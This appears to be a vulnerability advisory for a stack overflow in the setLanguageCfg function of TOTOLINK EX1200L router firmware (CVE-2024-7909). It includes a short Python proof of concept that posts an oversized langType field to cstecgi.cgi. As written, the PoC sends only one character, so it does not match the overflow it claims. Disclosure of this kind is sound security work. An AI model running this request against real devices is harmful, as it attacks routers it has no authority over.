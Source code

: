## Overview

- Manufacturer's website: https://www.totolink.net/
- Firmware download website:
  - https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/217/ids/36.html

## Affected version

totolink EX1200L_Firmware V9.3.5u.6146_B20201023

## Vulnerability details

A stack overflow vulnerability exists in the `sub_4231ac`(`setLanguageCfg`) function of program `/www/cgi-bin/cstecgi.cgi` in EX1200L V9.3.5u.6146_B20201023. The function receives the `langType` parameter from the user request and splices it into the variable `v7` on the stack, causing a stack overflow.

![image1](image/1.png)

## PoC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"


cookie = {"Cookie":"uid=1234"}
data = {
"topicurl":"setLanguageCfg",
"langType":"a"*0x1,
"langFlag":"1",
}

response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print(response)
```

Here is a screenshot of stack overflow:

![demo](image/demo.png)

## CVE

CVE-2024-7909
